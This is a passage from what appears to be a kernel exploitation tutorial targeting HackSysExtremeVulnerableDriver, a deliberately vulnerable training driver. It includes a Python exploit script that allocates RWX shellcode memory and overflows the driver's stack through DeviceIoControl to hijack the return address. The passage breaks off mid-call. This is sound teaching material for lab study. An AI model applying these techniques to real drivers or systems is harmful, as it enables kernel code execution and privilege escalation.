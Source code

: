 All we really did is substitute our shellcode for the end of `StackOverflowIoctlHandler` and then run that function's commands at the end of our shellcode to restore execution. Let's add some shellcode to our script, use `VirtualAlloc` to mark it with RWX permissions, and send some NOPs along with our restoration stub and everything should work out well! Also, you'll see the offset here to overwrite the `ret` address is `2056`. Spoiler alert. 

Our exploit code now looks like this:
```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *
import time

kernel32 = windll.kernel32

hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
if (not hevd) or (hevd == -1):
    print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
    sys.exit(1)
else:
    print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

shellcode1 = (
"\x90" * 100                                               
)

restoration_stub = (
"\x48\x83\xc4\x28"               # add rsp,0x28
"\xc3"                           # ret
)

shellcode = shellcode1 + restoration_stub

addr = kernel32.VirtualAlloc(
    c_int64(0),
    c_int(len(shellcode)),
    c_int(0x3000),
    c_int(0x40)
)

if not addr:
    print("[!] Error allocating shellcode RWX buffer")
else:
    print("[*] Allocated RWX buffer for shellcode @ {}").format(str(hex(addr)))

memmove(addr,shellcode,len(shellcode))

addr = struct.pack("<Q", addr)

buf = create_string_buffer("A"*2048 + "B"*8 + addr)

result = kernel32.DeviceIoControl(
    hevd,
    0x222003,
    addressof(buf),
    (len(buf)-1),
```